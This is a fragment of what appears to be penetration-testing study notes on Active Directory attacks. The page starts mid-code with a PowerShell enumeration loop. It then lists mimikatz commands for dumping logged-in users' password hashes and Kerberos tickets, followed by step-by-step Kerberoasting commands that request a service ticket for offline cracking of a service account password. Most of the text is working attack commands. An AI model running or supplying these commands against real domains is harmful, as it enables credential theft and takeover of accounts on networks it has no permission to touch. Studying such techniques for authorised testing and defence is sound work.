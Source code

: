 ```powershell
 Foreach($prop in $obj.Properties)
 {
 $prop
 }
}
```

check for serviceprincipalname

using nslookup you can fin the ip of the given service.

# Active Directory Attacks

## Cached Credentials
https://github.com/gentilkiwi/mimikatz/releases
https://book.hacktricks.xyz/windows/stealing-credentials
https://github.com/caday00/mimikatz2.1.1

Dump hashes for all users logged in to current workstation
```powershell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
```

Dump Ticket Granting Tickets (TGT) and Service Tickets (TGS)

```powershell
mimikatz # sekurlsa::tickets
```

Using the TGT we can request TGS for any resource in the domain

## Service Accounts Attacks
Note: no administrative rights needed

Fetch a TGS for an SPN and try to crack the ticket password. The password obtained is the one of the service account.

This is called Kerberoasting
Be careful when transfering the ticket as it's binary and might get mangled.

1. Fetch a TGS for an SPN
```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

2. Confirm it's loaded into memory
```powershell
PS C:\Users\offsec.CORP> klist
```
You should see an entry with the Server: HTTP/CorpWebServer.corp.com attribute-.
